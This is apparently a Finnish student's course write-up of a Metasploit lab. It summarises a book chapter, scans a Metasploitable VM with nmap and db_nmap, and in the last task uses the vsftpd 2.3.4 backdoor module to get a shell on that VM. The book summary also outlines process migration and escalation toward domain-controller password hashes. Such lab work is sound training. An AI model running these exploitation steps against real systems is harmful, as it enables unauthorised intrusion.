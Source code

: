 # x) Lue/katso/kuuntele ja tiivistä

## Chapter 1: Approaching a Penetration Test Using Metasploit

### Tunkeutumistestauksen hyödyt metasploitablella

- Erilaisten järjestelmien testaus mahdollista
- Avoin lähdekoodi
- Tiedon kerääminen. Voi tallentaa erillisesti omaan tietokantaan tai tiedostoon.
- Payloadien vaihtaminen ja konfigurointi helppoa
- Ei kaada järjestelmää, jos poistuu hetkellisesti hyökättävästä koneesta.

### Case study – reaching the domain controller

#### Tiedonkeruu
- db_nmap komennolla voi tallentaa skannauksen tietokantaan
- Kun tiedossa on järjestelmän käyttöjärjestelmä skannauksen avulla, voidaan ajaa hyökkäys, jolla voidaan hyökätä käyttöjärjestelmään.

### Threat modeling
- Search - toiminnolla löytää tunnetut haavoittuvuudet
- Moduulin valinnassa tulee aina noudattaa seuraavia kriteerejä:

`**Erinomainen:** Moduuli ei koskaan kaada palvelua.
**Hyvä:** Moduulilla on oletusasetus tai se pystyy automaattisesti tunnistamaan oikean kohteen ja käyttämään oikeita asetuksia versiontarkistuksen jälkeen.
**Kohtalainen:** Moduulilla on oletusasetus, ja haavoittuvuus on melko yleinen.
**Normaali:** Moduuli on yleensä luotettava, mutta riippuu tietystä versiosta.
**Heikko:** Moduulin hyödynnettävyys on alle 50 %, mikä tarkoittaa, että sitä on lähes mahdotonta hyödyntää oletusasetuksissa. `

### Hyväksikäyttö ja pääsynsaanti
- "use <exploit/path/to/module>", lataa hyökkäyksen.
- "show options" näyttää parametrit
- "exploit -j" ajaa hyökkäyksen taustalla.

### Pääsynsaannin jälkeen
- Hyökkäys kannattaa siirtää prosessiin, jota todennäköisemmin ei suljeta, esim. powershellistä explorer.exe.
- Hyökkääjä tekee itsestään adminin, jotta pääsee käsiksi domain controlleriin ja sen kautta Active Directoryyn, josta pääsee käsiksi salasanatiivisteisiin.

# a) Harjoittelemme omassa virtuaaliverkossa, jossa on Kali ja Metaspoitable. Osoita testein, että 1) koneet eivät saa yhteyttä Internetiin 2) Koneet saavat yhteyden toisiinsa.

## 1) Ei yhteyttä internettiin
![image](https://github.com/user-attachments/assets/464ff201-f9a5-4ef7-8a58-23774120af08)
![image](https://github.com/user-attachments/assets/cd7d9a68-3d12-4ce5-b725-e86ca73ad6d4)

## 2) Yhteys toiseen koneeseen
![image](https://github.com/user-attachments/assets/192458c5-b3b6-4089-b77d-d7e18791e7b0)
![image](https://github.com/user-attachments/assets/7006015f-afb5-4705-82d6-8ffe8205cea4)

# b) Ota Metasploit msfconsole käyttöön
![image](https://github.com/user-attachments/assets/7e45ea04-fa0a-47eb-a559-7b2351297afa)

# c) c) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - Metasploitablen weppipalvelimen etusivulla lukee Metasploitable.
### Ensiksi laitoin pyydetyn komennon konsoliin, saimme vastaukseksi, että tietokanta ei ole yhdistetty. Löysin nopealla googlauksella videon avustuksella (https://www.youtube.com/watch?v=nHiUThZxhHY) ratkaisun ongelmaan. Palaamme takaisin kali:iin, jossa käytämme komennon 'msfdb init', joka käynnistää tietokannan metaspoitableen. Varmistan vielä, että postgre-palvelu on käynnissä komennolla 'sudo service postgresql start'.
![image](https://github.com/user-attachments/assets/ba7a8998-1ac0-4709-b036-aefa9ae72671)
### Tarkistin vielä nmap komennon yhteydessä, että myös olemme kohdentamassa oikeaa IP:tä. 
![image](https://github.com/user-attachments/assets/2da4472f-02d5-4909-9d58-6040daa37597)

# d) Porttiskannaa Metasploitable perusteellisesti. Tallenna tulokset Metasploitin tietokantoihin (db_nmap) ja tiedostoihin (nmap -oA foo).
### Ensiksi tallennamme tulokset metasploitin tietokantoihin: "db_nmap -A *IP*"
![image](https://github.com/user-attachments/assets/dbcb4870-1a33-4e49-879c-16bcb4e5be99)
### Saamme tulokset tiedostoihin käyttämällä -oA - flägiä: "nmap -oA h2_ms2 -A *IP*"
![image](https://github.com/user-attachments/assets/7ca8425b-835b-4684-a598-d7b7ea30be3d)

# e) Tarkastele Metasploitin tietokantoihin tallennettuja tietoja komennoilla "hosts" ja "services". Kokeile suodattaa näitä listoja tai hakea niistä.
### Komennolla "services -h" saamme lisätietoa, miten services komentoa voi käyttää. Esimerkkinä suodatan porttiväliä 1-100, josta näemme haavoittuneet portit tuolla välillä.
![image](https://github.com/user-attachments/assets/86105508-6234-47e4-b2f7-b820a340b130)

# f) Vertaile nmap:n omaa tiedostoon tallennusta ja db_nmap:n tallennusta tietokantoihin. Mitkä ovat eri tiedostomuotojen ja Metasploitin tietokannan hyvät puolet?
### Kokeilin kahta tapaa grepata tiedostoja: file.nmap sekä file.gnmap. file.gnmap tulostuu heikosti, mutta file.nmap tulostuu luettavammaksi.
![image](https://github.com/user-attachments/assets/57102c88-0870-4570-a9c4-ec689170cdd9)

# g) Murtaudu Metasploitablen vsftpd-palveluun

### Käytän Jacobsin ohjeista kohtaa 3: Gaining access

    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor    # Valitaan haavoittuvuus, tässä tapauksessa "exellent"
    set RHOSTS 192.168.56.109    # Hyökätään metaspoitable koneeseen
    run    # ??? PROFIT
### Pääsimme käsiksi koneeseen, hyökkäys ilmoittaa että löysimme shellin, kirjoitan shell, jonka jälkeen hyökkäys ilmoittaa, että bash on valittavissa, kirjoitamme "bash", jonka jälkeen bash:in komentosyöte avautuu. Pääsemme esimerkiksi kiinni koneen kansiorakenteeseen -> 'ls -la'.

![image](https://github.com/user-attachments/assets/02524e6f-9a0b-4c35-9e4c-ff58ca15aaba)

![image](https://github.com/user-attachments/assets/eaed2158-cafd-4989-9502-3410420c7c67)

![image](https://github.com/user-attachments/assets/8c3feb8f-e68a-4ff6-95d3-a482332a8e9a)


    







